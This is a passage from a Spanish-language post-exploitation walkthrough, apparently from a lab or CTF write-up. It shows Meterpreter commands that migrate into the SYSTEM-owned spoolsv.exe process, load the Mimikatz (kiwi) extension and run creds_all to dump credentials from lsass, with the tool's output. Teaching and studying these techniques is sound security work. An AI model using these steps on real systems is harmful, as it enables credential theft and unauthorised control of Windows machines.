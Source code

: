 ```bash
SeLoadDriverPrivilege
SeManageVolumePrivilege
SeProfileSingleProcessPrivilege
SeRemoteShutdownPrivilege
SeRestorePrivilege
SeSecurityPrivilege
SeShutdownPrivilege
SeSystemEnvironmentPrivilege
SeSystemProfilePrivilege
SeSystemtimePrivilege
SeTakeOwnershipPrivilege
SeTimeZonePrivilege
SeUndockPrivilege
```

En este ejemplo el permiso que nos da el exploit es `SeTakeOwnershipPrivilege` .

Para poder acceder al servicio lsass donde se almacenan las credenciales de usuario en un sistema windows primero debemos intentar encontrar un proceso que sea ejecutado por el administrador del sistema ya que, aunque hayamos "escalado privilegios" no somos el administrador del sistema.

### Migración de procesos

Listamos los procesos que están en ejecución.

```bash
meterpreter > ps

1376  692   spoolsv.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\spoolsv.exe
```
Para interactuar con **lsass**, necesitamos migrar a un proceso que tenga la misma arquitectura que el servicio **lsass** (x64 en el caso de esta máquina) y que tenga los mismos permisos que **lsass**. El servicio de cola de impresión resulta ser perfecto para esto y se reiniciará si lo hacemos fallar. 

El servicio es el listado arriba.

Migrar a un proceso a menudo significa que, cuando tomamos el control de un programa en ejecución, terminamos cargando otra biblioteca compartida en el programa (un **DLL**) que incluye nuestro código malicioso. A partir de esto, podemos generar un nuevo hilo que aloje nuestra shell.

Para poder migrar el proceso, desde meterpreter

```bash
meterpreter > migrate -N spoolsv.exe 
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

Ahora podemos interactuar con el servicio lsass por lo que vamos a utilizar una herramienta para extraer datos de la la bases de datos de los sistemas windows llamada Mimikatz.

Meterpreter cuenta con un módulo implementado para cargarlo.

```bash
meterpreter > load kiwi
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

Success.
meterpreter > creds_all
[+] Running as SYSTEM
[*] Retrieving all credentials
```